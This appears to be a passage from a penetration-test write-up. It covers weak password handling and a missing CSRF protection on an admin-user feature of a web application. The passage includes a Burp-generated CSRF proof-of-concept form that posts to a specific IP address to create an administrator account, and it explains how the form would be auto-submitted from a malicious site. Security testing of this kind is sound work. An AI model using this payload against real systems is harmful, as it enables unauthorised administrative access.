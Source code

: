 * There was a "Generic password generator" at the top of the application that generated pseudo random passwords with a length of 12.
* There was no enforced password complexity. The system accepted a password of "a" when creating an administrator account.
* There did not appear to be any protections against CSRF on the add administrator account.

### Exploit CSRF to gain access

The tester tested the add user feature for CSRF:

* Used the CSRF PoC generator to create a CSRF PoC for burp.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://13.54.255.86/cortel-admin/user/addAdminUser.do" method="POST">
      <input type="hidden" name="admin" value="true" />
      <input type="hidden" name="effective" value="true" />
      <input type="hidden" name="username" value="evil" />
      <input type="hidden" name="password" value="GNI3EIKIBCZiJkEnjxEPqme7" />
      <input type="hidden" name="btn&#95;submit&#46;null" value="Add&#32;Admin&#32;User" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

* Copy the test URL into Firefox. In a real world scenario the HTML code above would be embedded into a malicious site and JavaScript included to auto submit the form so that no user interaction is required beyond visiting the malicious site while logged in.

![copy_into_browser](images/copy_into_browser.png "Copying the attack URL into browser")
